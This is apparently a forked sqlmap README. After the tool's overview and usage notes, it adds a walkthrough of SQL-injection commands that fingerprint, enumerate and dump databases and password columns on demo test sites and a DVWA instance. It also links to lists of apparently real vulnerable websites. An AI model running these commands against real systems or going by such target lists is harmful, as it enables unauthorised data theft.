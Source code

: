 # Overview

[![Build Status](https://api.travis-ci.org/sqlmapproject/sqlmap.svg?branch=master)](https://api.travis-ci.org/sqlmapproject/sqlmap) [![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/) [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/doc/COPYING) [![Twitter](https://img.shields.io/badge/twitter-@sqlmap-blue.svg)](https://twitter.com/sqlmap)

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

# Screenshots
----

![Screenshot](https://raw.github.com/wiki/sqlmapproject/sqlmap/images/sqlmap_screenshot.png)

You can visit the [collection of screenshots](https://github.com/sqlmapproject/sqlmap/wiki/Screenshots) demonstrating some of features on the wiki.

# Installation
----

You can download the latest tarball by clicking [here](https://github.com/sqlmapproject/sqlmap/tarball/master) or latest zipball by clicking  [here](https://github.com/sqlmapproject/sqlmap/zipball/master).

Preferably, you can download sqlmap by cloning the [Git](https://github.com/sqlmapproject/sqlmap) repository:

    git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

sqlmap works out of the box with [Python](http://www.python.org/download/) version **2.6.x** and **2.7.x** on any platform.

# Usage
----

To get a list of basic options and switches use:

    python sqlmap.py -h

To get a list of all options and switches use:

    python sqlmap.py -hh

You can find a sample run [here](https://gist.github.com/stamparm/5335217).
To get an overview of sqlmap capabilities, list of supported features and description of all options and switches, along with examples, you are advised to consult the [user's manual](https://github.com/sqlmapproject/sqlmap/wiki).
# SQL VULNERABLE WEBSITES List 2016
http://www.allhackingtools.com/2015/02/SQL-VULNERABLE-websites-List.html

http://sqlinjectiondorks2016.blogspot.com/2016/06/sql-vulnerable-websites-list-2016.html
# Demo
http://www.webscantest.com/

## Determine the DBMS Behind the Web Site
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4"
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1
## Find the Databases
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
## Get More Info from the Database
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --tables
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs --columns -D webscantest

./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables --columns
## Enumerate the Database Users
./sqlmap.py -u "http://webscantest.com/datastore/search_get_by_id.php?id=4" --users
./sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns

**Output: &&
database management system users [1]:
[*] 'webscantest'@'%'

**Description:* In this case, the user "scanme" can login from any host or IP, as the database admin has used the wildcard "%" which means "any or none".

## Extract the Data
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dump -D webscantest -T orders
./sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D acuart -T users -C email,name,pass 

##DVWA Example: http://resources.infosecinstitute.com/sql-injection/

1. Get cookie
2. ./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low"
3. Get Data

    * `./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low" --dbs --tables`
    * `./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low" -D dvwa -T users --dump`
